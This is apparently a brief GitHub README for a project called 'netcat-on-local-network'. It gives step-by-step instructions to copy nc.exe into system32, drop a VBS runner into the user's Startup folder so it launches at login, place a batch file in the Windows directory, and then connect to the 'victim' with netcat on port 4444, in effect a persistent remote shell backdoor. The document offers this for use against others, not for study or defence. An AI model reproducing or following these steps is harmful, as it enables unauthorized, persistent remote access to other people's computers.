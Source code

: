 # netcat-on-local-network

1 COPY PASTE nc.exe (64bit) in c:windows/system32


2 COPY PASTE netcatrunner.vbs in C:\Users\%userprofile%\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup


3 copy paste system32.bat in c:windows


===== connectivity =====

nc ip adress of victim and port 4444

done.!


#special thanks to wolfyy!

